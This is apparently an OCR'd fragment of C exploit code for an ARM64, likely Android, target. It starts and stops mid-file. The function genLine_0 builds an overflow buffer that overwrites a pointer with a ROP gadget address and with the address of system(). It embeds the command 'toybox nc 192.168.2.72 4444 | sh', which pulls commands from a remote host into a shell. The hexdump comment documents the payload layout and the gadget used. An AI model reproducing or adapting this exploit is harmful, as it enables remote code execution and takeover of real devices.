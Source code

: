 ```c
    } while ((buf_len) > 0 && (hex_len > 0));
}

int genLine_0(unsigned char *buffer) {
/*
    00000000: 0000 0000 0000 0000 0000 0000 0000 0000  ................
    00000010: 0000 0000 0000 0000 4242 4242 4242 4242  ........BBBBBBBB
    00000020: 746f 7962 6f78 206e 6320 3139 322e 3136  toybox nc 192.16
    00000030: 382e 322e 3732 2034 3434 3420 7c20 7368  8.2.72 4444 | sh
    00000040: 0000 0000 0000 0000 0000 0000 0000 0000  ................
    00000050: 0000 0000 0000 0000 0000 0000 0000 0000  ................
    00000060: 0000 0000 0000 0000 0000 0000 0000 0000  ................
    00000070: 0000 0000 0000 0000 0000 0000 0000 0000  ................
    00000080: 4141 4141 4141 4141 eeff                 AAAAAAAA..

    Over-write AAAAAAAA with address of gadget 1
    Over-write BBBBBBBB with address of system() function

    Gadget 1
    ldr x8, [x19, #0x18]
    add x0, x19, #0x20
    blr x8
*/
    unsigned char hexData[138] = {
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00, 0x00,
            0x00, 0x00, 0x00, 0x00, 0xEF, 0xBE, 0xAD, 0xDE, 0xEE, 0xFF
    };
    memcpy(buffer, hexData, sizeof(hexData));

    /*
    Gadget g1:
        ldr x8, [x19, #0x18]
        add x0, x19, #0x20
        blr x8
    */
    size_t g1_loc = 0x7cb81f0954;
    memcpy(buffer + 128, &g1_loc, 8);

    size_t system_loc = 0x7cb602ce84;
    memcpy(buffer + 24, &system_loc, 8);

    char *command = "toybox nc 192.168.2.72 4444 | sh";
    memcpy(buffer + 32, command, strlen(command));

    return sizeof(hexData);
};

int main(int argc, char *argv[]) {
```